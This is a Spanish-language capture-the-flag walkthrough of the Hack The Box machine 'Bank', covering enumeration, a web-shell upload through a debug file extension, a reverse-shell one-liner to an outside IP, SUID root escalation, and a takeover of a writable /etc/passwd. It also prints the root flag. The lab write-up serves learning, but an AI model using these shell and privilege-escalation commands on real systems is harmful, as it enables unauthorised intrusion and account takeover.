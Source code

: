 10.10.10.29
-----------

El escaneo de puertos dice que están abirtos el 22 (ssh), 53 (dns) y 80 (http):

```console
└─$ whatweb http://10.10.10.29
http://10.10.10.29 [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.29], Title[Apache2 Ubuntu Default Page: It works]
```

La web muestra la pagina por defecto de Apache. Tambien nos hablan de las rutas de Apache:
```
/etc/apache2/ -- apache2.conf --  ports.conf
|-- mods-enabled  -- *.load  -- *.conf
|-- conf-enabled  -- *.conf
|-- sites-enabled -- *.conf
```
He probado a poner en el /etc/hosts el nombre de la maquina (bank.htb) y al acceder, me lleva a otra web
diferente. Me encuentro una redireccion a login.php, pero si le doy con curl (evito asi la redireccion) acabo
en / . Ahi no hay nada mas que una grafica de transacciones (pero ni enlances ni nada).

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bank.htb/FUZZ
000000277:   301        9 L      28 W       304 Ch      "assets"
000002176:   301        9 L      28 W       301 Ch      "inc"
000000150:   301        9 L      28 W       305 Ch      "uploads"
```
Fuzeando por rutas .php ```bank.htb/FUZZ.php``` está /login /logout /index y /support
La ruta /inc tiene varios archivos:
```
footer.php       2017-05-28 20:54 1.2K
header.php       2017-05-28 20:53 2.8K
ticket.php       2017-05-29 13:16 2.3K
user.php         2017-05-28 21:39 2.8K
```
Como son php, no se puede leer su codigo fuente directamente.
El directorio /uploads me da un 403 forbidden. Cuando sale este error, lo ideal es mirar la cookie de sesion (ya
que si fuera la correcta este error desaparecería).
La cookie es: ```'HTBBankAuth':'1l0uefsr3nqabnbppatv5pvi60'``` no parece base64 ni hexadecimal.

Como tenemos varios php y no sabemos como interactuar con ellos, lo ideal seria fuzzear parámetros.
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt "http://bank.htb/user.php?FUZZ=/etc/passwd"
```
Pero no obtuve resultado con ninguno.
EN cuando al panel de login intente con las inyeccion sqli basica ```admin@bank.htb' or 1=1-- -``` pero nada.

Como el puerto 53 está abierto, esta bien utilizar *dig* para buscar subdominios (encima ya tenemos el dominio)
```console
└─$ dig @10.10.10.29 bank.htb mx
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
```
chris.bank.htb me da a la pagina de Apache, asi que en teoria cuando pones la ip es adonde te lleva (en vez de 
bank.htb)

En cuanto a las rutas .php, support php por cul me da para subir un archivo. Para evitar la redireccion, hay que
pillar con burpsuite la peticion a support.php y darle a "intercept response" y cambiar 302 found a 200 ok.
No me deja subir mi shell.php por extension, pero antes de hacer la triquiñuela de cambiar a dbole extension, 
el filename / ontent type o ponerle otra cabecera, en el codigo fuente me encontre el comentario:
```html
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```
Asi que cambie el nombre de shell.php a shell.htb. Ahi si me deja. Tengo que tener el burpsuite activado todo
el rato:
```http://bank.htb/uploads/shell.htb?cmd=whoami   # www.data```
```http://bank.htb/uploads/shell.htb?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.7/443 0>%261'```

En escucha con nc en el puerto 443 y ya estoy en el sistema
```console
www-data@bank:/var/www/bank/uploads$  
```
Con mi script de enumeracion tenemos que:
- Usaurios -> root y crhris (nosotros somos ww-data)
- No hay capabilities interesantes pero de SUIDs tenemos /var/htb/bin/emergency
- Podemos escribir en el /etc/passwd (riesgo)

```console
www-data@bank:/var/www/bank/uploads$ /var/htb/bin/emergency
# whoami
root
# cd /root
# cat root.txt
eae25b15185b457fb1b74e44bb2b1ed6
```

## Despues de root, extra:
```console
# ls /var/www/bank
assets		 bankreports.txt    inc	login.php   support.php
balance-transfer  delete-ticket.php  index.php	logout.php  uploads
```
Se me habia pasado /balance-trasnfer. En esa ruta hay muchis archivos .acc. COmo hay un monton y no es
plan de abrirlos uno a uno, hay que tirar de trucos de bash. COmo esto es un ctf, suele ser el que sea diferente
de los demas.
```console
└─$ curl -s http://bank.htb/balance-transfer/ | html2text | grep "acc" > acc_files.txt
└─$ cat acc_files.txt | grep -v "2017-06-15" # por fecha son todos de esa fecha.
└─$ cat acc_files.txt | grep -vE "584|585|582|583|581"  
[[   ]]      68576f20e9732f1b2edc4df5b8533230.acc 2017-06-15  257  
```
257 es el unico tamaño que no se repite y ademas demasiado corto comparado con los demas.
```console
└─$ curl -s http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```
Pero *!##HTBB4nkP4ssw0rd!##* solo nos sirve para la web
ESta contaseña no funcionaba, pero tenemos un /etc/passwd con permisos de escritura es cambiar la x de este chaval
por una nuestra (sustituyendo el hash DESUnix en el /etc/passwd)

```console
└─$ openssl passwd -1 cucuxii
$1$tp.HwOAl$jXoSqK0KxwyJ5Sc32EVrR.
```
La linea de crhis pasa de 
```
chris:x:1000:1000:chris,,,:/home/chris:/bin/bash
chris:$1$tp.HwOAl$jXoSqK0KxwyJ5Sc32EVrR.:1000:1000:chris,,,:/home/chris:/bin/bash
```
```console
www-data@bank:/var/www/bank/uploads$ su chris
Password: cucuxii

```


